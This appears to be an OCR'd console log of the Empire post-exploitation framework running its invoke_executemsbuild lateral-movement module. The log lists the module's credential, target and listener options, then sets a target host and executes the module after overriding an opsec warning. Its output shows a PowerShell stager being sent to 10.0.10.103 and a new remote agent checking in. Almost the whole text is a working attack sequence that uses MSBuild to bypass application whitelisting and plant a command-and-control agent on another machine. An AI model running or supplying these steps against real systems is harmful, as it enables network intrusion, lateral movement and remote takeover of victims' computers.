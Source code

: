 ```
  an xml file containing an Empire launcher

Comments:
  Inspired by @subtee http://subt0x10.blogspot.com/2016/09
  /bypassing-application-whitelisting.html

Options:

  Name         Required    Value                     Description
  ----         --------    -------                   -----------
  UserName     False                                 UserName if executing with credentials  
  CredID       False                                 CredID from the store to use.           
  ComputerName True                                  Host to target                          
  DriveLetter  False                                 Drive letter to use when mounting the   
                                                     share locally                           
  ProxyCreds   False       default                   Proxy credentials                       
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  FilePath     False                                 Desired location to copy the xml file on
                                                     the target                              
  Agent        True        V6W3TH8Y                  Agent to grab a screenshot from.        
  Listener     True                                  Listener to use.                        
  Proxy        False       default                   Proxy to use for request (default, none,
                                                     or other).                              
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Password     False                                 Password if executing with credentials  

(Empire: powershell/lateral_movement/invoke_executemsbuild) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_executemsbuild) > set Listener https
(Empire: powershell/lateral_movement/invoke_executemsbuild) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked V6W3TH8Y to run TASK_CMD_WAIT
[*] Agent V6W3TH8Y tasked with task ID 5
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_executemsbuild
(Empire: powershell/lateral_movement/invoke_executemsbuild) > 

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     : 
__DYNASTY        : __PARAMETERS
__RELPATH        : 
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         : 
__NAMESPACE      : 
__PATH           : 
ProcessId        : 6732
ReturnValue      : 0
PSComputerName   : 




[*] Sending POWERSHELL stager (stage 1) to 10.0.10.103
[*] New agent 38APWSR1 checked in
[+] Initial agent 38APWSR1 from 10.0.10.103 now active (Slack)
[*] Sending agent (stage 2) to 38APWSR1 at 10.0.10.103

(Empire: powershell/lateral_movement/invoke_executemsbuild) > agents

[*] Active agents:

```
